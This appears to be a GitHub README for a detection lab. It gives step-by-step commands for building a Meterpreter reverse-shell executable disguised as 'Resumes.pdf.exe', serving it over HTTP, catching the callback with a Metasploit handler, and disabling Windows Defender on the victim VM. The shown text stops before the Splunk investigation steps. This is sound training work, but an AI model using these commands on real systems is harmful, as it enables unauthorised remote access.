








# meterpreter-attack-detection-lab

### Project Overview

This project simulates a real-world attack scenario and demonstrates how endpoint telemetry can be used to detect and investigate malicious activity using a Security Information and Event Management (SIEM) platform.

In this lab, an attack was simulated using a Meterpreter reverse TCP payload generated from Kali Linux. The payload was executed on a Windows virtual machine, after which system activity was monitored and investigated using Sysmon logs ingested into Splunk.

The goal of this project was to demonstrate the SOC investigation workflow, including identifying indicators of compromise, correlating process activity, and tracing attacker commands executed on the compromised host.

### Lab Environment

Two virtual machines were used:

| Machine    | Role                                  |
| ---------- | ------------------------------------- |
| Kali Linux | Attacker machine                      |
| Windows VM | Victim machine with Sysmon and Splunk |

Network option for both these virtual machines was set to internal network in VirtualBox to create an isolated network.

### Skills Learned

-Simulating attacks using Metasploit and Meterpreter reverse TCP payloads
-Hosting and delivering payloads using a Python HTTP server
-Collecting endpoint telemetry using Sysmon
-Ingesting and analyzing logs in Splunk
-Investigating suspicious activity using queries
-Tracing attacker commands executed through a reverse shell
-Understanding the SOC workflow from attack simulation to detection and investigation

### Tools Used

| Tool                 | Purpose                                             |
| -------------------- | --------------------------------------------------- |
| Kali Linux           | Attack simulation machine                           |
| Metasploit Framework | Payload generation and exploitation                 |
| Python               | Hosting a simple HTTP server to deliver the payload |
| Windows VM           | Target machine                                      |
| Sysmon               | Endpoint telemetry and process logging              |
| Splunk               | Log ingestion and investigation                     |

## Steps
1. The first step of the project is to setup both the virtual machines, I used a kali linux vm and another windows 10 vm inside virtual box. It's settings has to be adjusted so that the network is set to internal network rather than NAT. Both the virtual machines should be configured to be in the same internal network.

2. When this is done we can power up both the machines and take note of the IP address of both the machines using `ifconfig` and `ipconfig` in linux and windows respectively. Mine is set to have `192.168.20.11` for kali linux and `192.168.20.10` for windows.

3. To setup the windows machine further we have to make sure that splunk and sysmon is installed in windows.

4. Sysmon needs to be running the olaf configuration (It is a configuration file created by OlafHartong.) You will find a lot of videos on youtube that will guide you through it. You can download the config file from <a href="https://github.com/olafhartong/sysmon-modular/blob/master/sysmonconfig.xml">here</a>

5. You also need to install the splunk-addon-for-sysmon into your splunk from the find more apps section in splunk toolbar for it to be able to parse sysmon logs and generate more fields in results (You will need to change the network adapter settings of the virtual machine to NAT for this). When I tried to do it, the app store within splunk wouldn't load and then I had to find an alternate way and ended up downloading the add on file seperately and then adding it to sysmon directly from my machine.

  

  <em>Figure 1: Broken splunk app store.</em>

6. Next we perform a simple network enumeration of the windows machine using nmap from the kali machine to identify the open ports in the windows machine and we take note of the obtained results. `nmap -A 192.168.20.10 -Pn`

7. Now use the metasploit framework to create the malware sample that we need. You can use the command `msfvenom -h` to get the manual of msfvenom. we can get a list of available payloads with the command `msfvenom -l payloads`

8. We will use the reverse tcp shell payload for this lab. To generate a exploit using this payload use the command:
  `msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.20.11 lport=4444 -f exe -o Resumes.pdf.exe`

| Flag | Value | Description |
|------|------|-------------|
| `-p` | `windows/x64/meterpreter/reverse_tcp` | Payload – staged reverse TCP Meterpreter for 64-bit Windows |
| `lhost` | `192.168.20.11` | Your (attacker) machine IP the target connects back to |
| `lport` | `4444` | Port on your machine listening for the connection |
| `-f` | `exe` | Output format – a Windows PE executable |
| `-o` | `Resumes.pdf.exe` | Output filename – disguised to look like a PDF |

  

  <em>Figure 2: Creating Payload using msf.</em>

**(One thing to consider in this writeup is that while I was doing this project I had to change the malware sample few times for it to work. So there will be some mismatch in the file name of the exploit in the screenshots that I attach )**

9. Make sure that the file is saved in the desired location.

  

  <em>Figure 3: Eploit saved into the device.</em>

10. Now we have to spin up a server using python in the directory where the exploit is saved so that the windows machine can access and download the malware. For this use the command
  `python3 - http.server 9995`
This command will setup a http server on the port 9995 (you can use any port that is not in use).

  

  <em>Figure 4: setting up http server.</em>

11. Open up the metasploit console.
  `msfconsole`

12. Then use the command `use exploit/multi/handler` to wait for any incoming connections from the deployed payload. Then use the command `options` to see what we can configure. 

  

  <em>Figure 5: msf handler options.</em>

13. Note that the payload is set to generic/shell_reverse_tcp and lhost not specified. Change both of it using the commands:
  `set payload windows/x64/meterpreter/reverse_tcp` and `set lhost 192.168.20.11`

  

  <em>Figure 6: payload and lhost changed.</em>

14. Now go to the windows machine to disable the windows defender. This can be done in windows security  > Virus and threat detection > Real time protection. Turn this off.

15. Now we access the server setup earlier in the directory that contains the malware sample by going into the url `192.168.20.11:9995`

  

  <em>Figure 7: accessing the server.</em>

16. Download and run the malware sample that we created earlier. Windows will warn not to keep the file and also not to run the file. Ignore the warnings and run the executable.

  

  <em>Figure 8: Ignore the windows warnings.</em>

17. As we ran the executable. A connection will be made between the attacker machine and the target. To verify it you can use the command `netstat -anob` in a command prompt with administrator privilages and also in task manager.

  

  <em>Figure 9: visualising the connection made with the attacker machine due to the exploit.</em>

  

  <em>Figure 10: verifying it in task manager.</em>

***note that the PID for both it is the same and the process is caused by the exploit***

18. 

